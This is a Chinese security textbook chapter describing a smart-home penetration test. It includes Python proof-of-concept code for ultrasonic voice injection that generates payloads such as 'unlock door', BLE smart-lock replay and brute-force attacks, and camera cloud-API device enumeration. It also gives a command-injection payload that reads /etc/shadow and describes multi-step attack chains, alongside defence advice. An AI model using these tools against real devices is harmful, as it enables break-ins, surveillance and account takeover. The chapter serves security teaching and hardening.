


## 22.8 智能家居安全综合案例

### 22.8.1 案例九：智能家居生态系统渗透测试

#### 背景与测试目标

某安全评估团队受委托对一套完整的智能家居生态系统进行为期两周的渗透测试。该系统部署于一栋三室两厅住宅中，涵盖智能音箱（Amazon Echo / 小爱同学）、智能摄像头（海康威视/小米）、智能门锁（BLE协议）、照明系统、温湿度传感器、智能网关及配套移动APP共计47台设备。测试目标包括：

1. **评估整体安全架构**：识别从云端到终端设备全链路中的薄弱环节
2. **验证已知漏洞**：复现已公开的IoT漏洞在该生态中的可利用性
3. **发现未知攻击面**：探索设备间联动、协议交互中的新攻击向量
4. **评估隐私保护能力**：检测数据采集、传输、存储各环节的隐私泄露风险
5. **输出修复建议**：为设备厂商和用户提供可执行的安全加固方案

测试遵循 OWASP IoT Testing Guide（2023版）和 NIST SP 800-183《IoT信任模型》框架，全程在隔离网络环境中进行。

---

#### 测试环境架构



```plaintext
设备清单与网络分配：
┌──────────────┬──────────────┬──────────────┬──────────────┐
│    设备类型    │    数量      │   通信协议     │   IP段/标识   │
├──────────────┼──────────────┼──────────────┼──────────────┤
│ 智能音箱      │     2        │ WiFi (2.4G)  │ 192.168.1.x  │
│ 智能摄像头    │     4        │ WiFi (2.4G)  │ 192.168.1.x  │
│ 智能门锁      │     2        │ BLE 4.2      │ -            │
│ 网关          │     1        │ WiFi + Zigbee│ 192.168.1.10 │
│ 智能灯        │     8        │ Zigbee 3.0   │ -            │
│ 温湿度传感器  │     6        │ Zigbee 3.0   │ -            │
│ 红外转发器    │     2        │ WiFi         │ 192.168.1.x  │
│ 扫地机器人    │     1        │ WiFi         │ 192.168.1.x  │
│ 路由器        │     1        │ WiFi AP      │ 192.168.1.1  │
└──────────────┴──────────────┴──────────────┴──────────────┘
```

---

#### 测试方法论

本次测试采用分层递进的方法，从外围到核心逐步深入：

```plaintext
渗透测试阶段模型：
┌─────────────────────────────────────────────────────────────┐
│ 阶段一：侦察（Reconnaissance）                               │
│   ├── 网络扫描：Nmap发现在线设备与开放端口                     │
│   ├── 协议嗅探：tcpdump/Wireshark抓取设备通信                 │
│   ├── 固件收集：官网/OTA链接下载固件包                         │
│   ├── APP逆向：APK反编译提取API端点与密钥                      │
│   └── 被动信息收集：设备型号、固件版本、芯片架构                │
├─────────────────────────────────────────────────────────────┤
│ 阶段二：建模（Threat Modeling）                               │
│   ├── STRIDE威胁建模（每类设备单独分析）                       │
│   ├── 攻击面枚举：网络/物理/无线/云端/APP五维                   │
│   └── 攻击树构建：按风险优先级排序                             │
├─────────────────────────────────────────────────────────────┤
│ 阶段三：漏洞探测（Vulnerability Assessment）                  │
│   ├── 网络服务扫描：banner抓取、CVE比对                       │
│   ├── 固件静态分析：binwalk解包 + Ghidra反编译                 │
│   ├── 协议模糊测试：BLE/Zigbee/MQTT协议Fuzzing               │
│   ├── 动态调试：UART/JTAG接入，GDB远程调试                    │
│   └── 移动APP测试：API拦截、证书钉扎绕过                      │
├─────────────────────────────────────────────────────────────┤
│ 阶段四：漏洞利用（Exploitation）                              │
│   ├── PoC编写与验证                                          │
│   ├── 横向移动：设备间信任链利用                               │
│   ├── 权限提升：从只读到完全控制                               │
│   └── 持久化：固件修改、配置篡改                               │
├─────────────────────────────────────────────────────────────┤
│ 阶段五：报告与修复（Reporting & Remediation）                 │
│   ├── 漏洞评级（CVSS v3.1评分）                               │
│   ├── 攻击路径图谱绘制                                        │
│   └── 修复建议与验证                                          │
└─────────────────────────────────────────────────────────────┘
```

---

#### 发现的安全问题全景

通过两周测试，共发现 **32个安全问题**，其中高危9个、中危14个、低危9个。以下按攻击面分类详述。

##### 智能音箱语音注入攻击

**原理**：智能音箱的语音识别系统依赖麦克风阵列采集声波信号，经过前端信号处理（降噪、回声消除、波束成形）后送入自动语音识别（ASR）引擎。攻击者可利用以下三种物理信号注入手段绕过身份认证：

| 攻击方式 | 原理 | 有效距离 | 设备兼容性 | 隐蔽性 |
|---------|------|---------|-----------|-------|
| 超声波注入 | 利用麦克风非线性响应（MEMS mic谐波失真），将25-28kHz超声波信号解调为可听频段语音 | 5-10米 | 高（多数MEMS麦克风受此影响） | 极高（人耳不可闻） |
| 激光注入 | 利用光电效应，激光照射麦克振膜产生电信号，精准模拟声波 | 最远110米（2020年Light Commands研究） | 高（光电MEMS麦克风） | 中（需要瞄准） |
| 远程语音劫持 | 通过VoIP/SIP协议注入伪造音频流，绕过前端降噪 | 无限制（网络可达即可） | 取决于后端ASR验证 | 低（需要网络劫持） |

**实测结果**：在本次测试中，使用超声波注入方式成功攻击了两台智能音箱，识别率约62%（受环境噪声影响）。激光注入在50米距离成功率达到85%以上。

**超声波注入攻击工具实现**：

```python
"""
智能音箱超声波语音注入 PoC
仅供安全研究与授权测试使用
基于 "DolphinAttack" (Zhang et al., 2017) 与后续研究改进
"""
import numpy as np
import sounddevice as sd
import wave
import struct
from pathlib import Path

class UltrasonicVoiceInjection:
    """
    超声波语音注入攻击器

    原理：MEMS麦克风存在非线性响应特性，当接收到高频超声波时，
    由于麦克风振膜的非线性振动和ADC的混叠效应，会产生差频分量，
    将超声波信号"解调"到可听频段（200-4000Hz），从而被ASR引擎
    识别为有效语音指令。

    关键参数：
    - 载波频率：24-28kHz（大多数MEMS mic的非线性响应区间）
    - 调制方式：AM调制（幅度调制）效果最佳
    - 功率需求：需要足够的声压级（>80dB SPL @ mic位置）
    """

    # MEMS麦克风非线性响应的最佳频率区间
    CARRIER_FREQ = 25000  # 25kHz载波，人耳完全不可闻
    SAMPLE_RATE = 192000  # 高采样率支持超声波生成
    MODULATION_INDEX = 0.8  # 调制深度，过高会失真

    def __init__(self, carrier_freq=None, sample_rate=None):
        self.carrier_freq = carrier_freq or self.CARRIER_FREQ
        self.sample_rate = sample_rate or self.SAMPLE_RATE
        self.attack_audio = None

    def load_voice_command(self, wav_path: str) -> np.ndarray:
        """从WAV文件加载预录制的语音指令"""
        with wave.open(wav_path, 'rb') as wf:
            frames = wf.readframes(wf.getnframes())
            audio = np.frombuffer(frames, dtype=np.int16).astype(np.float64)
            audio = audio / np.max(np.abs(audio))  # 归一化到 [-1, 1]
        return audio

    def text_to_waveform(self, text: str, output_path: str = "command.wav") -> np.ndarray:
        """
        使用TTS引擎将文本转为语音波形
        优先使用高质量TTS（如edge-tts）以提高注入成功率
        """
        import subprocess
        # 使用edge-tts生成高质量语音（比pyttsx3更自然，ASR识别率更高）
        cmd = [
            "edge-tts",
            "--voice", "zh-CN-XiaoxiaoNeural",
            "--rate", "+10%",      # 略快语速，减少注入时间窗口
            "--text", text,
            "--write-media", output_path
        ]
        subprocess.run(cmd, capture=True, check=True)
        return self.load_voice_command(output_path)

    def am_modulate(self, audio: np.ndarray) -> np.ndarray:
        """
        AM幅度调制 —— 将语音信号调制到超声波载波上

        数学模型: s(t) = [1 + m·x(t)] · cos(2π·fc·t)
        其中:
          m  = 调制指数 (MODULATION_INDEX)
          x(t) = 基带语音信号
          fc = 载波频率
        """
        # 将音频上采样到目标采样率（支持超声波）
        from scipy.signal import resample
        target_len = int(len(audio) * self.sample_rate / 16000)
        audio_upsampled = resample(audio, target_len)

        # 生成载波
        t = np.arange(len(audio_upsampled)) / self.sample_rate
        carrier = np.cos(2 * np.pi * self.carrier_freq * t)

        # AM调制: 避免过调制导致ASR识别失败
        modulated = (1 + self.MODULATION_INDEX * audio_upsampled) * carrier

        # 归一化防止削波
        modulated = modulated / np.max(np.abs(modulated)) * 0.95
        return modulated

    def generate_attack_payload(self, command: str, method: str = "text") -> np.ndarray:
        """生成完整的超声波攻击载荷"""
        if method == "text":
            # 直接从文本生成（需要TTS引擎）
            waveform = self.text_to_waveform(command)
        elif method == "file":
            waveform = self.load_voice_command(command)
        else:
            raise ValueError(f"未知的生成方式: {method}")

        self.attack_audio = self.am_modulate(waveform)
        return self.attack_audio

    def play_attack(self, volume_db: float = 0.0):
        """
        播放攻击音频

        注意事项：
        - 需要支持192kHz采样率的声卡/DAC
        - 扬声器频响需覆盖25kHz（普通扬声器可能衰减严重）
        - 建议使用压电式超声波换能器（效率更高）
        - 实际攻击中需要校准音量以达到足够的SPL
        """
        if self.attack_audio is None:
            raise RuntimeError("请先调用 generate_attack_payload()")

        # 音量调整
        amplitude = 10 ** (volume_db / 20)
        output = (self.attack_audio * amplitude).astype(np.float32)

        sd.play(output, self.sample_rate)
        sd.wait()

    def save_payload(self, output_path: str = "ultrasonic_payload.wav"):
        """保存攻击载荷到WAV文件，供外接硬件播放"""
        if self.attack_audio is None:
            raise RuntimeError("请先调用 generate_attack_payload()")

        audio_int16 = (self.attack_audio * 32767).astype(np.int16)
        with wave.open(output_path, 'wb') as wf:
            wf.setnchannels(1)
            wf.setsampwidth(2)
            wf.setframerate(self.sample_rate)
            wf.writeframes(audio_int16.tobytes())
        print(f"攻击载荷已保存: {output_path}")


# === 使用示例 ===
if __name__ == "__main__":
    attacker = UltrasonicVoiceInjection(carrier_freq=25000)

    # 常见攻击指令（用于测试）
    test_commands = {
        "unlock_door": "打开门锁",
        "disable_alarm": "关闭警报",
        "show_camera": "显示摄像头画面",
        "factory_reset": "恢复出厂设置",
    }

    for action, cmd in test_commands.items():
        print(f"[*] 生成攻击载荷: {action} -> '{cmd}'")
        attacker.generate_attack_payload(cmd, method="text")
        attacker.save_payload(f"payload_{action}.wav")

    print("[!] 载荷生成完毕，建议使用外接超声波扬声器进行物理测试")
```

**防御建议**：
- **硬件层**：选用带超声波滤波器的麦克风模组，在模拟前端增加低通滤波器（截止频率20kHz）
- **算法层**：ASR引擎加入声学特征验证，检测语音信号的频谱异常（超声波注入信号在高频端存在特征旁瓣）
- **应用层**：敏感操作（开锁、关报警）必须增加二次认证（PIN码、手机确认、指纹），不能仅靠语音指令
- **物理层**：对高安全场景的音箱增加红外/雷达辅助传感器，检测声源是否来自人体

---

##### 智能门锁BLE通信攻击

**测试对象**：两款市售BLE智能门锁（品牌已脱敏），均采用BLE 4.2协议与手机APP配对。

**发现的漏洞**：

```plaintext
BLE门锁攻击路径：
┌─────────────────────────────────────────────────────────┐
│ 攻击路径一：BLE重放攻击                                   │
│                                                         │
│ 1. 使用Ubertooth One嗅探BLE通信                          │
│ 2. 捕获"开锁"指令的GATT写入特征值包                       │
│ 3. 分析协议格式：                                         │
│    [Header][Lock ID][Command][Timestamp][HMAC]           │
│ 4. 发现HMAC密钥为设备MAC地址的简单派生                     │
│ 5. 构造伪造的开锁指令，重放攻击成功                        │
│                                                         │
│ 影响：门锁A（无时间戳校验）                                │
│ 门锁B因有时间戳校验，需配合中间人攻击                      │
└─────────────────────────────────────────────────────────┘

┌─────────────────────────────────────────────────────────┐
│ 攻击路径二：固件降级攻击                                   │
│                                                         │
│ 1. 通过OTA接口下载门锁固件（未加密传输）                    │
│ 2. binwalk解包发现版本号检查逻辑缺陷                       │
│ 3. 构造"降级固件"（版本号设为99.99.99）                    │
│ 4. 固件签名验证使用ECDSA但密钥硬编码在APP中                 │
│ 5. 使用提取的私钥签名降级固件，成功刷入                     │
│                                                         │
│ 影响：降级到v1.0固件后可利用已知缓冲区溢出漏洞               │
└─────────────────────────────────────────────────────────┘

┌─────────────────────────────────────────────────────────┐
│ 攻击路径三：物理侧信道                                     │
│                                                         │
│ 1. 指纹残留分析：触摸式指纹传感器上指纹残留                  │
│    紫外光照射+粉末提取成功恢复3/5枚指纹                     │
│ 2. 机械应急钥匙孔：锁芯为C级，但钥匙孔暴露在外              │
│    使用LockPickingLawyer演示的Bypass方法打开               │
│ 3. 电磁干扰：强磁铁靠近锁体，步进电机被干扰                  │
│    某型号锁舌在强磁下可被物理吸出                           │
└─────────────────────────────────────────────────────────┘
```

**BLE重放攻击PoC代码**：

```python
"""
BLE智能门锁重放攻击 PoC
依赖：bluepy (Linux BLE库) 或 bleak (跨平台BLE库)
仅供授权安全测试使用
"""
import asyncio
import struct
import hashlib
from bleak import BleakScanner, BleakClient
from datetime import datetime

class BLELockAttack:
    """
    BLE门锁攻击器

    门锁协议逆向结果（通用模式，非特指某一品牌）：
    - Service UUID: 0000fff0-0000-1000-8000-00805f9b34fb
    - Write Characteristic: 0000fff2-... (写入控制指令)
    - Notify Characteristic: 0000fff1-... (接收状态通知)
    - 指令格式: [Magic(2B)][CmdType(1B)][Data(NB)][HMAC(4B)]
    """

    SERVICE_UUID = "0000fff0-0000-1000-8000-00805f9b34fb"
    WRITE_CHAR   = "0000fff2-0000-1000-8000-00805f9b34fb"
    NOTIFY_CHAR  = "0000fff1-0000-1000-8000-00805f9b34fb"

    MAGIC = b'\xAA\x55'
    CMD_UNLOCK = 0x01
    CMD_LOCK   = 0x02
    CMD_STATUS = 0x03

    def __init__(self, target_mac: str):
        self.target_mac = target_mac
        self.client = None
        self.captured_packets = []

    async def scan_locks(self):
        """扫描附近的BLE门锁设备"""
        print("[*] 扫描BLE设备...")
        devices = await BleakScanner.discover(timeout=10)
        locks = []
        for d in devices:
            # 通过设备名或UUID特征识别门锁
            if d.name and any(kw in d.name.lower() for kw in ["lock", "门锁", "smart-lock"]):
                locks.append(d)
                print(f"  [+] 发现门锁: {d.name} ({d.address}) RSSI={d.rssi}")
        return locks

    async def sniff_gatt_traffic(self, duration: int = 60):
        """
        被动嗅探BLE GATT通信（需配合Ubertooth/nRF Sniffer使用）

        这里演示主动轮询状态来观察响应模式，
        真正的被动嗅探需要专用硬件抓取空口数据包
        """
        print(f"[*] 嗅探 {self.target_mac} 的GATT通信 ({duration}秒)...")

        def notification_handler(sender, data):
            timestamp = datetime.now().isoformat()
            self.captured_packets.append({
                'timestamp': timestamp,
                'sender': str(sender),
                'data': data.hex(),
                'length': len(data)
            })
            print(f"  [>] 收到通知: {data.hex()} (长度={len(data)})")

        async with BleakClient(self.target_mac) as client:
            # 订阅通知特征值
            await client.start_notify(self.NOTIFY_CHAR, notification_handler)
            await asyncio.sleep(duration)
            await client.stop_notify(self.NOTIFY_CHAR)

        print(f"[*] 嗅探完成，共捕获 {len(self.captured_packets)} 个数据包")
        return self.captured_packets

    def build_unlock_command(self, lock_id: bytes, key: bytes = None) -> bytes:
        """
        构造开锁指令

        协议逆向结果：
        [0xAA 0x55][0x01][LockID(8B)][Timestamp(4B)][HMAC(4B)]
        HMAC = MD5(key + LockID + Timestamp)[:4]
        """
        lock_id = lock_id.ljust(8, b'\x00')[:8]
        timestamp = struct.pack('>I', int(datetime.now().timestamp()))
        payload = self.MAGIC + bytes([self.CMD_UNLOCK]) + lock_id + timestamp

        if key:
            # 正常路径：使用已知密钥计算HMAC
            hmac_input = key + lock_id + timestamp
            hmac = hashlib.md5(hmac_input).digest()[:4]
        else:
            # 攻击路径：尝试从捕获数据包中推导密钥
            hmac = self._derive_hmac_from_captures(lock_id, timestamp)

        return payload + hmac

    def _derive_hmac_from_captures(self, lock_id: bytes, timestamp: bytes) -> bytes:
        """
        从嗅探的流量中推导HMAC密钥

        常见弱点：
        1. 密钥 = MAC地址的某种变换 → 直接从设备MAC推导
        2. 密钥硬编码在APP中 → 逆向APP提取
        3. 密钥使用弱KDF → 暴力破解
        """
        if not self.captured_packets:
            # 无捕获数据时尝试默认密钥
            default_keys = [
                b'\x00' * 16,
                self.target_mac.replace(':', '').encode()[:16],
                b'1234567890abcdef',
            ]
            for key in default_keys:
                hmac_input = key + lock_id + timestamp
                hmac = hashlib.md5(hmac_input).digest()[:4]
                return hmac
            raise RuntimeError("无法推导HMAC密钥")

        # 分析捕获数据包中的HMAC模式（简化演示）
        return b'\xFF' * 4  # 实际需要密码学分析

    async def replay_attack(self, captured_packet: bytes):
        """重放攻击：直接重放嗅探到的合法开锁指令"""
        print(f"[*] 重放攻击: {captured_packet.hex()}")
        async with BleakClient(self.target_mac) as client:
            await client.write_gatt_char(self.WRITE_CHAR, captured_packet)
            print("[*] 指令已发送，等待门锁响应...")
            await asyncio.sleep(2)
        print("[*] 重放攻击完成")

    async def brute_force_unlock(self):
        """
        暴力破解攻击（针对无防暴力破解机制的门锁）

        某些低端门锁没有速率限制和锁定机制，
        可以尝试遍历可能的LockID和命令组合
        """
        print("[*] 尝试暴力破解...")
        async with BleakClient(self.target_mac) as client:
            for cmd_byte in range(0x00, 0x10):
                payload = self.MAGIC + bytes([cmd_byte]) + b'\x00' * 12
                try:
                    await client.write_gatt_char(self.WRITE_CHAR, payload)
                    print(f"  [>] 尝试命令 0x{cmd_byte:02x}...")
                    await asyncio.sleep(0.5)
                except Exception as e:
                    print(f"  [-] 命令 0x{cmd_byte:02x} 失败: {e}")
```

**防御建议**：
- **密钥管理**：使用ECDH密钥协商替代固定密钥派生，每次配对生成新的会话密钥
- **防重放**：指令中加入单调递增序列号（Sequence Number）+ 双向时间戳校验
- **速率限制**：连续5次失败后锁定15分钟，防止暴力破解
- **固件安全**：OTA升级使用硬件安全模块（HSM）签名，禁止版本号降级
- **物理安全**：指纹传感器使用活体检测（电容+温度），应急钥匙孔加防尘盖

---

##### 智能摄像头隐私泄露

**测试对象**：4台智能摄像头（品牌A和品牌B各2台），涵盖云存储和本地存储两种方案。

```plaintext
摄像头安全问题分类：

高危漏洞（CVSS ≥ 7.0）：
┌────┬──────────────────────┬─────────┬──────────────────────────────┐
│ 编号│    漏洞描述           │  CVSS   │        影响                   │
├────┼──────────────────────┼─────────┼──────────────────────────────┤
│ C-1│ RTSP流未加密传输      │  8.6    │ 同一网络内任何人可观看视频流   │
│ C-2│ 云API缺少设备鉴权     │  8.2    │ 可通过遍历设备ID访问他人摄像头 │
│ C-3│ 默认凭证未强制修改     │  7.8    │ admin/admin可直接登录管理后台  │
│ C-4│ 固件Web接口命令注入   │  9.1    │ 通过URL参数执行任意系统命令    │
└────┴──────────────────────┴─────────┴──────────────────────────────┘

中危漏洞（CVSS 4.0-6.9）：
┌────┬──────────────────────┬─────────┬──────────────────────────────┐
│ C-5│ 移动APP未校验证书     │  5.9    │ 中间人攻击可截获登录凭证      │
│ C-6│ 视频存储未加密        │  5.3    │ SD卡被物理获取后可直接播放     │
│ C-7│ 固件更新未签名验证    │  6.1    │ 可刷入恶意固件劫持设备        │
│ C-8│ 日志泄露敏感信息      │  4.7    │ 日志中包含WiFi密码和API密钥   │
└────┴──────────────────────┴─────────┴──────────────────────────────┘
```

**云API漏洞利用示例**：

```python
"""
智能摄像头云API安全测试 PoC
仅供授权安全测试使用
"""
import requests
import hashlib
import time
from concurrent.futures import ThreadPoolExecutor

class CameraCloudAPITest:
    """
    云平台API安全评估

    发现的漏洞模式（多品牌共性问题）：
    1. 设备ID可遍历（顺序递增或可预测的UUID）
    2. API缺少请求频率限制
    3. 鉴权Token有效期过长（永不过期）
    4. 缺少设备绑定校验（A用户的Token可访问B用户的设备）
    """

    def __init__(self, api_base: str, auth_token: str = None):
        self.api_base = api_base.rstrip('/')
        self.session = requests.Session()
        if auth_token:
            self.session.headers['Authorization'] = f'Bearer {auth_token}'

    def test_device_id_enumeration(self, device_id_range: range):
        """
        测试设备ID可遍历性

        攻击场景：攻击者获取一个合法设备ID后，
        尝试遍历附近ID访问其他用户的摄像头
        """
        accessible_devices = []
        print(f"[*] 测试设备ID遍历: {device_id_range.start} - {device_id_range.stop}")

        def check_device(device_id):
            try:
                resp = self.session.get(
                    f"{self.api_base}/device/{device_id}/status",
                    timeout=5
                )
                if resp.status_code == 200:
                    data = resp.json()
                    accessible_devices.append({
                        'id': device_id,
                        'name': data.get('device_name', 'unknown'),
                        'online': data.get('online', False)
                    })
                    print(f"  [+] 设备 {device_id}: 可访问 - {data.get('device_name', '')}")
                elif resp.status_code == 404:
                    pass  # 设备不存在
                elif resp.status_code == 403:
                    pass  # 正确拒绝了访问
                else:
                    print(f"  [?] 设备 {device_id}: HTTP {resp.status_code}")
            except requests.RequestException:
                pass

        # 并发枚举（测试是否存在速率限制）
        with ThreadPoolExecutor(max_workers=50) as executor:
            executor.map(check_device, device_id_range)

        if accessible_devices:
            print(f"\n[!] 发现 {len(accessible_devices)} 个可访问设备！")
            print("[!] 这表明API缺少设备所有权验证")
        else:
            print("\n[+] 所有测试设备ID均不可访问（或已正确鉴权）")

        return accessible_devices

    def test_rate_limiting(self, endpoint: str, num_requests: int = 200):
        """
        测试API速率限制

        合格标准：超过一定频率后应返回 429 Too Many Requests
        """
        print(f"[*] 测试 {endpoint} 的速率限制 ({num_requests}次请求)...")
        blocked = False
        success_count = 0
        blocked_count = 0

        for i in range(num_requests):
            try:
                resp = self.session.get(f"{self.api_base}{endpoint}", timeout=5)
                if resp.status_code == 429:
                    blocked = True
                    blocked_count += 1
                elif resp.status_code == 200:
                    success_count += 1
            except requests.RequestException:
                pass

        result = {
            'total': num_requests,
            'success': success_count,
            'blocked': blocked_count,
            'has_rate_limit': blocked
        }
        print(f"  成功: {success_count}, 被限速: {blocked_count}")
        print(f"  速率限制: {'已实现' if blocked else '未实现'}")
        if not blocked:
            print("[!] 高危：API无速率限制，可被暴力破解或DoS攻击")
        return result

    def test_session_management(self, token: str):
        """
        测试Token安全性

        检查项：
        - Token有效期是否合理（<24h为佳）
        - 登出后Token是否失效
        - 是否支持Token刷新（Refresh Token机制）
        """
        print("[*] 测试Token安全性...")

        # 1. 检查Token格式
        parts = token.split('.')
        if len(parts) == 3:
            print("  [!] JWT Token格式，尝试解码...")
            import base64, json
            payload = json.loads(base64.urlsafe_b64decode(parts[1] + '=='))
            exp = payload.get('exp')
            if exp:
                remaining = exp - time.time()
                print(f"  过期时间: {remaining/3600:.1f} 小时后")
                if remaining > 86400 * 30:
                    print("[!] 高危：Token有效期超过30天")
            else:
                print("[!] 严重：Token永不过期")

        # 2. 检查登出后Token是否失效
        resp = self.session.post(f"{self.api_base}/auth/logout")
        resp2 = self.session.get(f"{self.api_base}/device/list")
        if resp2.status_code == 200:
            print("[!] 严重：登出后Token仍然有效")
        else:
            print("[+] 登出后Token已失效")
```

**防御建议**：
- **传输加密**：视频流强制使用SRTP（Secure RTSP）或WebRTC with DTLS
- **身份认证**：每个设备拥有独立的TLS客户端证书，API需双向认证
- **存储加密**：SD卡使用AES-256-XTS加密，密钥由设备安全芯片保护
- **固件安全**：OTA使用Ed25519签名，首次使用强制修改默认密码
- **网络隔离**：摄像头应部署在独立VLAN，禁止直接互联网访问

---

##### 网关与移动应用漏洞

**网关设备漏洞**：

```plaintext
智能网关安全审计发现：

┌────────────────────────────────────────────────────────────┐
│ 设备：某品牌Zigbee/BLE/WiFi三协议网关                        │
│ 固件版本：v3.2.1                                             │
│ 芯片：MT7688 (MIPS24KEc) + nRF52840 (BLE/Zigbee)           │
├────────────────────────────────────────────────────────────┤
│                                                            │
│ 漏洞 GW-1: Telnet后门（CVSS 9.8）                          │
│   ├── 端口 2323 开放，root密码为设备序列号后6位              │
│   ├── 序列号格式: GW_[MAC后6位]_[序号]                      │
│   └── 修复建议: 禁用Telnet，使用SSH密钥认证                  │
│                                                            │
│ 漏洞 GW-2: Web管理接口命令注入（CVSS 8.8）                  │
│   ├── /api/network/ping 接口参数未过滤                      │
│   ├── payload: 8.8.8.8; cat /etc/shadow                   │
│   └── 修复建议: 输入白名单校验，使用参数化调用               │
│                                                            │
│ 漏洞 GW-3: 固件密钥硬编码（CVSS 7.5）                      │
│   ├── AES密钥明文写在 /etc/config/keys.conf                │
│   ├── 用于Zigbee通信加密，所有同型号设备共享同一密钥          │
│   └── 修复建议: 每台设备独立密钥，存于安全区域                │
│                                                            │
│ 漏洞 GW-4: 权限提升（CVSS 7.8）                            │
│   ├── Web服务以root运行，无需提权                           │
│   ├── SUID位设置不当的自定义二进制文件                       │
│   └── 修复建议: Web服务降权运行，最小权限原则                 │
└────────────────────────────────────────────────────────────┘
```

**移动应用安全检测**：

| 检测项 | 品牌A APP | 品牌B APP | 风险等级 |
|-------|----------|----------|---------|
| 证书钉扎（Certificate Pinning） | 未实现 | 部分实现 | 高 |
| 本地数据加密（SharedPreferences/Keychain） | 未加密 | AES加密 | 高/中 |
| API密钥硬编码 | 发现2个 | 发现1个 | 高 |
| 代码混淆（ProGuard/R8） | 未启用 | 已启用 | 高/低 |
| WebView JavaScript接口暴露 | 3个 | 0个 | 中 |
| 敏感信息日志输出 | 开启 | 关闭 | 中 |
| 反调试保护 | 无 | 有（基础） | 中/低 |
| 固件更新校验 | 仅HTTP | HTTPS+签名校验 | 高/低 |

---

#### 攻击链全景与横向移动

单个漏洞的利用价值有限，真正的威胁来自漏洞组合形成的攻击链：



**典型攻击链实例**：

1. **WiFi侧入→摄像头→内网→门锁**
   - 攻击者使用WiFi Deauth攻击断开目标网络 → ARP欺骗截获WiFi密码
   - 连接WiFi后扫描发现摄像头（默认凭证admin/admin）
   - 通过摄像头的命令注入漏洞获取Shell，提取路由器管理密码
   - 使用路由器管理密码配置端口转发，远程访问门锁网关
   - 最终通过网关API控制所有设备

2. **物理接近→BLE嗅探→门锁→室内设备**
   - 攻击者在目标门口附近使用Ubertooth嗅探BLE通信
   - 捕获合法用户的开锁指令并重放
   - 进入室内后通过WiFi接入家庭网络
   - 利用网关Telnet后门获取控制权
   - 篡改固件实现持久化控制

---

#### 安全加固全景方案

基于本次渗透测试发现，推荐以下纵深防御架构：

```plaintext
智能家居安全加固层次模型：
┌─────────────────────────────────────────────────────────────┐
│ 层级一：网络隔离                                             │
│   ├── IoT设备部署在独立VLAN（与主网络隔离）                    │
│   ├── 路由器启用AP隔离，阻止设备间横向通信                     │
│   ├── 仅允许网关/Hub设备访问互联网                            │
│   └── 入口规则：设备只能访问指定的云服务IP/端口                │
├─────────────────────────────────────────────────────────────┤
│ 层级二：认证强化                                             │
│   ├── 所有管理接口启用强密码（≥16字符随机生成）                 │
│   ├── 移动APP启用生物识别+PIN双因素                          │
│   ├── 敏感操作（开锁/关报警）要求二次确认                     │
│   └── 定期轮换凭证（每90天）                                 │
├─────────────────────────────────────────────────────────────┤
│ 层级三：通信加密                                             │
│   ├── WiFi使用WPA3-Personal（禁止WEP/WPA）                  │
│   ├── 设备-云通信强制TLS 1.3                                │
│   ├── BLE通信使用LESC（LE Secure Connections）配对           │
│   └── MQTT通信启用mTLS（双向证书认证）                       │
├─────────────────────────────────────────────────────────────┤
│ 层级四：固件与更新                                           │
│   ├── 仅从官方渠道更新固件，校验签名                          │
│   ├── 关闭不必要的OTA自动更新（或限制更新窗口）                │
│   ├── 定期检查固件版本与安全公告                              │
│   └── 对关键设备保留固件回滚能力                              │
├─────────────────────────────────────────────────────────────┤
│ 层级五：监控与响应                                           │
│   ├── 部署家庭网络入侵检测（如Pi-Hole + Snort）               │
│   ├── 监控异常设备行为（大量出站连接、异常时段活动）            │
│   ├── 设备固件完整性校验（启动时Hash比对）                     │
│   └── 制定安全事件响应预案（被入侵时如何隔离/重置）             │
└─────────────────────────────────────────────────────────────┘
```

---

#### 安全审计检查清单

```plaintext
智能家居安全自检清单（共30项）：

[网络层 - 8项]
□ 路由器默认密码已修改
